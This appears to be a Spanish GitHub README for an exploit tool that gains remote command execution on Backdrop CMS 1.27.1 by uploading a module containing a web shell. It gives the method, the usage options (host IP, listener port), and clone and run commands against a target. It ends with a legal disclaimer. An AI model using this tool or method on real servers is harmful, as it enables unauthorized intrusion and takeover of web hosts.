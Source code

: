 # Backdrop CMS 1.27.1 - Automated Authenticated RCE

Este [script](<autoDropRCE.py.md>) permite obtener acceso de forma automatizada a la máquina víctima sobre una instalación vulnerable de **Backdrop CMS 1.27.1**. La vulnerabilidad explotada radica en la gestión de módulos, donde el atacante puede subir e instalar un módulo malicioso en el sistema.

Las opciones disponibles son las siguientes:

```ps
usage: autoDropRCE.py [-h] -t TARGET_URL -h-ip HOST_IP -u USERNAME -p PASSWORD [-l PORT]

🪂 Backdrop CMS 1.27.1 - Automated Authenticated RCE 🪂

   ej: python3 autoDropRCE.py -t http://backdrop-example.com -i 172.17.0.1 -u trr0r -p trr0r

options:
  -h, --help                   show this help message and exit
  -t, --target-url TARGET_URL  Target url Backdrop web - ej: http://backdrop-example.com
  -h-ip, --host-ip HOST_IP     Host IP - ej: 172.17.0.1
  -u, --username   USERNAME    Valid Backdrop username - ej: trr0r
  -p, --password   PASSWORD    Valid Backdrop password - ej: trr0r
   
  -l, --listen-port PORT       Listen port                                               (default = 4444)
```

___
## Descripción de la Vulnerabilidad 📜

En el gestor de contenidos **Backdrop** (**1.27.1**) un atacante puede subir módulos maliciosos al sistema. Esto se debe a una debilidad en la forma en que **Backdrop** maneja la carga de módulos a través del **instalador manual de módulos**, lo que facilita la ejecución remota de comandos (**RCE**).
### 1. Módulo Malicioso:

El atacante debe de crear un módulo `.tar` que contenga:
- Un archivo `.php` con código malicioso, como una **web shell**, que permita ejecutar comandos de manera remota (**RCE**).
- Un archivo `.info` que describa el módulo para que así sea registrado como un módulo válido para el sistema **Backdrop CMS**.
### 2. Subida del Módulo:

Para aprovechar esta vulnerabilidad, el atacante necesita autenticarse en **Backdrop CMS**. Una vez autenticado, y si tiene los permisos adecuados, podrá cargar e instalar un módulo malicioso. Este módulo, al ser instalado en el sistema, permitirá al atacante ejecutar comandos de manera remota en el servidor (RCE).

___
## Descarga 📥

Nos clonamos el repositorio de la siguiente forma:

```bash
git clone https://github.com/trr0r/autoDropRCE
cd autoDropRCE
```

Instalamos las librerías necesarias gracias a `pip3`:

```bash
pip3 install -r requirements.txt
```

___
## Uso ⚙️

Una vez que tengas los datos listos, puedes ejecutar el script con el siguiente comando:

```bash
python3 autoDropRCE.py -t http://backdrop-example.com -h-ip 172.17.0.1 -u trr0r -p trr0r
```

![Image](https://github.com/user-attachments/assets/d654ae24-a00d-46d6-9127-facdb019c326)

---
### Advertencia legal ⚠️

> [!WARNING]
Este software está destinado solo para uso personal y debe utilizarse únicamente en entornos controlados y con autorización previa. El empleo de esta herramienta en sistemas o redes sin la debida autorización puede ser ilegal y contravenir políticas de seguridad. El desarrollador no se hace responsable de daños, pérdidas o consecuencias resultantes de su uso inapropiado o no autorizado. Antes de utilizar esta herramienta, asegúrate de cumplir con todas las leyes y regulaciones locales pertinentes.